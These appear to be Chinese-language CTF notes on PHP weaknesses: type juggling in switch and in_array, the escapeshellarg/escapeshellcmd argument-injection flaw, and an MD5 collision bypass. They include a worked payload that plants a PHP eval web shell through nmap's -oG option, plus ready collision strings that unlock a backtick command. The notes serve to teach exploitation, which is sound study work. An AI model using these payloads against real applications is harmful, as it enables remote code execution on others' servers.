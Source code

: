 ###  switch()

```php
如果switch是数字类型的case的判断时，switch会将其中的参数转换为int类型，效果相当于intval函数。
```

### **14.in_array()**

```php
$array=[0,1,2,'3']; 

var_dump(in_array('abc', $array)); //true 被abc被强制类型转换成0
var_dump(in_array('1bc', $array)); //true 被转换成1
在所有php认为是int的地方输入string，都会被强制转换
```

###  escapeshellarg()->escapeshellcmd() 流程

参考链接： https://paper.seebug.org/164/ 

```bash
1 传入的参数是：172.17.0.2' -v -d a=1

2 经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

3 经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php

4 最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
例如传入（来自[BUUCTF 2018]Online Tool）
' <?php @eval($_POST["cmd"]);?> -oG yjh.php '(两个单引号旁边的空格不能少)
先变成
' ''\'' <?php @eval($_POST["cmd"]);?> -oG yjh.php '\'' '
然后
' ''\\'\' <?php @eval($_POST["cmd"]);?> -oG yjh.php '\\'' '
简化成
' <?php @eval($_POST["cmd"]);?> -oG yjh.php 
```

### md5强比较加强制类型转换绕过

```PHP
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
构造：    
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
    
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

    
 0e215962017 加密前后相等
```
